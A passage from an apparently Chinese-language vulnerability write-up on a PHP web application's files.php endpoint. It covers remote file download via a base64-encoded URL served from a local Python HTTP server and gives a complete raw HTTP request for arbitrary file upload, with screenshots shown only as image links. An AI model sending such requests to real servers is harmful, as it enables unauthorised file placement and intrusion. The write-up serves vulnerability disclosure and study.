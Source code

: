 　　url 是 base64 编码的 http://192.168.222.1:8000/1.txt  
```
 python2 -m SimpleHTTPServer 8000   #在本地开启 http 服务
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Lc8ToPamqrczTjww5x9C5a1nyZib5rISjzfLj35mGLY1HQqwZGCSIRPxFrWRup27ibKT4OCDrIs8r3w/640?wx_fmt=png "null")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Lc8ToPamqrczTjww5x9C5a14hJHickyPV6KWAf33KQicIY4NoeKX2fl1n4fX6e9OffHShX61PG64y4Q/640?wx_fmt=png "null")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Lc8ToPamqrczTjww5x9C5a1MCkAlPNy7lV5j06LFhFIPTspYkZzsZy1RXF3dJ4kJiclQPH5UcAoS1w/640?wx_fmt=png "null")  
  
　　service/app/files.php  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Lc8ToPamqrczTjww5x9C5a1dN1HfZ10m3K9u0XguicR9CRVuicrcUROcksy64HpCNDxzZSu5RLln2icA/640?wx_fmt=png "null")  
  
　　通过 url 获取远程的下载地址，download_to_file_folder 指定下载文件文件夹，newfilename 指定保存文件的文件名  
### 任意文件上传  
  
　　构造数据包  
```
POST /service/app/files.php?type=file_upload HTTP/1.1
Host: 192.168.222.139:9080
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://192.168.222.139:9080/C292CA
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9c53f8f8c903d9412a3f0211
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryE0tFhmmng2vwxftT
Content-Length: 288

------WebKitFormBoundaryE0tFhmmng2vwxftT
Content-Disposition: form-data; name="file_path"

/
------WebKitFormBoundaryE0tFhmmng2vwxftT
Content-Disposition: form-data; name="file"; filename="testing1.txt"
Content-type: image/jpg

qweqwe------WebKitFormBoundaryE0tFhmmng2vwxftT--
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Lc8ToPamqrczTjww5x9C5a1cJ8ernfC6AEXSNXpEDTHjDGw5SVStpyOKwttnRJ4ib6YxLbIPy9uvVw/640?wx_fmt=png "null")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Lc8ToPamqrczTjww5x9C5a1s0TF3ZUrMRlrOQwW0TvQttLlZ4enN35hSxia4zlekcxZh0nsbv1tBFg/640?wx_fmt=png "null")  
  
　　service/app/files.php  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9Lc8ToPamqrczTjww5x9C5a1cGFNDMbUzhfeicKeebKd6I3Z5ute8QicLCBicneMGxImCH1QrmVW09hJA/640?wx_fmt=png "null")  
### 任意文件上传二  
  